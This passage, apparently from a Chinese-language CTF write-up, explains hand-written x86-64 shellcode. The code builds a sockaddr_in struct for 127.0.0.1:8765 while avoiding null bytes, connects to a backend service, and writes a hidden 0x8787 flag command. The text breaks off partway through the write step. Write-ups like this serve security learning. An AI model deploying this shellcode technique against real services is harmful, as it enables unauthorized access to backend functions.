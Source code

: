                 short   sin_family;         //address family
                u_short sin_port;           //16 bit TCP/UDP port number
                struct  in_addr sin_addr;   //32 bit IP address
                char    sin_zero[8];        //not use, for align
        };
        ```
        就會對應到底下註解的地方，包含IP / Post / Internet Family之類的，所以我們就可以按照這個structure建構出來，short是2 bytes，而根據前面的byte code會發現`AF_INET`是\x0002，也就是兩個bytes，第二個是port也是兩個bytes，8765轉成hex就是0x223d；最後一個是IP address，總共是4 bytes的in_addr structure，如果想詳細了解in_addr的結構可以看[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/ns-winsock2-in_addr?source=docs)，但具體來說就是把`127.0.0.1`→`7f000001`，所以全部貼在一起並且轉成little endian的話就會變成==0x100007f3d220002==，但有一個非常大的問題，如果直接把該值push進到stack並取\$rsp放到\$rsi的話，整個流程會有太多的\x00，因此@cs-otaku提供了一個非常有創意的想法，就直接用扣的，反正只要最後放到stack的值是對的就好了
        ```python
        # struct sockaddr_in info;
        # info.sin_family = AF_INET;
        # info.sin_addr.s_addr = inet_addr("127.0.0.1");
        # info.sin_port = htons(8765);
        # connect(fd, (struct sockaddr *)&info, sizeof(info));
        connect = """
            xor rax, rax
            mov al, 0x2a

            mov rdi, r8

            mov rsi, 0xffffffffffffffff
            mov r9, 0xfeffff80c2ddfffd
            sub rsi, r9
            push rsi
            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0x10

            syscall
        """
        ```
    3. Write
        這一段主要是置換原本不應該出現的command，因為按照原本程式的流程，只會有CMD_Register→0x1 / CMD_Login→0x2 / CMD_GetFolder→0x11 / CMD_NewNote→0x12等這四種，分別會在對應的操作下傳到backend後讓他做對應的操作，現在我們要把cmd.cmd改成0x8787，之後用write把這個command寫到對應的fd中，如同其他command也那樣操作一樣
        ```python
        # struct Command cmd;
        # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
        # write(fd, &cmd, sizeof(cmd));
        write = """
            xor r9, r9
            mov r9w, 0x8787
            push r9

